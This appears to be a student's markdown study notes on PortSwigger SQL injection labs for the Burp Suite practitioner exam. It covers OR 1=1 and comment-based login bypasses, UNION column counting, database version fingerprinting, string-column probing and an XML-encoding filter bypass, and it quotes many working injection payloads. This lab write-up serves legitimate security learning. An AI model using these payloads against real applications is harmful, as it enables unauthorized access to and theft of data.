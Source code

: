 [PortSwigger SQL Injection](https://portswigger.net/web-security/sql-injection),
[SQL Injection Cheat Sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## SQL injection vulnerability in WHERE clause allowing retrieval of hidden data 
- When user selects a category: `SELECT * FROM products WHERE category = 'Gifts' AND released = 1` /filter?category=Clothing%2c+shoes+and+accessories
- Solve the lab to display one or more unreleased products: `SELECT * FROM products WHERE category = '' OR 1=1 --'`/filter?category='+OR+1=1--
  - `--` is a comment indicator in SQL. Rest of the query is interpreted as a comment following this (effectively removing it). In this case, `AND released = 1` is removed. This could've been done just using the '--' to see unreleased items, but if you wanted to see unreleased items from all categories, the OR 1=1 --' works, as it is either Gifts or 1=1 is true, and since 1=1 is always true, the query returns all items.
 
## SQL injection vulnerability allowing login bypass
- When user logs in, there is a reported SQL vulnerability. Potential attempts to try include:
  - `SELECT firstname FROM users where username='administrator' and password='admin'`
  - `SELECT firstname FROM users where username=''' and password='admin'`
  - `SELECT firstname FROM users where username='administrator' --' and password='admin'` - WINNER

## SQL injection UNION attack, determining the number of columns returned by the query
- UNION attacks - retrieve data from other tables within the database. UNION allows for execution of additional SELECT queries: `SELECT a, b FROM table1 UNION SELECT c, d FROM table2`
- Two requirements for UNION attacks:
  1. Individual queries must return the same number of columns (find out how many columns are being returned from the original query)
      - Inject a series of ORDER BY clauses and incrementing the specified column index until an error occurs. `' ORDER BY 1--`, `'ORDER BY 2--`, etc.
      - Inject a series of UNION SELECT payloads with different number of null values `' UNION SELECT NULL--`, `'UNION SELECT NULL,NULL--`, etc.
        - A NullPointerException makes this method ineffective. 
  2. The data types in each column must be compatible with the individual queries (find out which columns returned from the original query are of a suitable data type to hold the results from the injected query).
- In this lab, attempted `'+ORDER+BY+2--'` through 4 and noticed 4 returned an error. Determined there were three columns.
  - Verified 3 columns by also using `'+UNION+SELECT+NULL,NULL,NULL--'` (# of nulls has to match # of columns)
 
## SQL injection attack, querying the database type and version on Oracle
- You can identify the database type and version by injecting provider-specific queries:
  - Microsoft/MySQL: `SELECT @@version`
  - Oracle: `SELECT * FROM v$version`
  - PostgreSQL: `SELECT version()`
- For example, UNION attack with following input: `' UNION SELECT @@version--`
- **REMEMBER** - you need to determine the number of columns first before performing a UNION attack.
  - Performed `' ORDER BY 2--'` - determined 2 columns, as 3 returned an error (category='+ORDER+BY+2--')
- Once I determined 2 columns, I knew I needed to add an additional column to call for in my request: `' UNION SELECT banner,null FROM v&version--`
  - `' UNION SELECT banner,null FROM v$version--`
  - `' UNION SELECT version, null FROM v$instance--` did not work for this Oracle database. 

![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/cc5bd783-036f-4acc-9d71-c7452b4a7d63)

## SQL injection attack, querying the database type and version on MySQL and Microsoft
- Just like with Oracle, you need to figure out how many columns there are. Remember that comments are different - if you use `--` for MySQL, you must include a space after! `-- `
  - Determined number of columns by `' UNION SELECT NULL,NULL-- `, URL-encoded: `'+UNION+SELECT+NULL,NULL--+ ` (3 nulls returned an error)
      - Could also be done with `' ORDER BY 3 -- `
- The solution informs you to also determine the data returned by the column, which we will look at in the lab following this one.
- `'+UNION+SELECT+%40%40version,NULL--+` aka `' UNION SELECT @@version,null-- `

## SQL injection UNION attack, finding a column containing text
- Desired interesting data is often returned as a string, so you may need to find the one or more columns whose data type is compatible with strings. You can do this by probing columns:
```
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
- If the column type is not compatible with string data, a database error will likely be caused. If no error, and the response contains additional content like injected string value, relevant column is suitable for retrieving string data. 

![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/0cf51a15-ea3c-4b91-bab5-9136bd1540ec)


## SQL injection with filter bypass via XML encoding
- Different formats, such as JSON or XML, may provide you ways to obfuscate attacks that are otherwise blocked [Link](https://portswigger.net/web-security/essential-skills/obfuscating-attacks-using-encodings#obfuscation-via-xml-encoding)
  - Can use the bApp extension Hackvertor to assist with encoding/decoding. 
- For example, the following XML-based SQL injection uses an XML escape sequence to encode the S character in SELECT [W3 UTF-8 Link](https://www.w3schools.com/charsets/ref_utf_basic_latin.asp):

```
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>

*The x indicates Hex for UTF-8 HTML, I believe*
```
- As for the lab, originally tried the following (UNION SELECT * FROM user--), which returned 0 units. Need to figure out how many columns maybe?:
```
<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>8 &#x55;NION &#x53;ELECT &#42; &#x46;ROM users.tables&#x2D;&#x2D; </productId><storeId>2</storeId></stockCheck>
```
  - Changed it to UNION SELECT null - we see that it only likes to return one column at a time, so we have to concatenate. Both inputs were impacted here:
    
![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/57c4ece1-7ea1-45e4-9866-3cd178865088)
![image](https://github.com/madslaz/Burp-Suite-Certified-Practitioner/assets/52518274/9fa260e3-3ce6-47d4-bfbc-27d316a4bcdc)


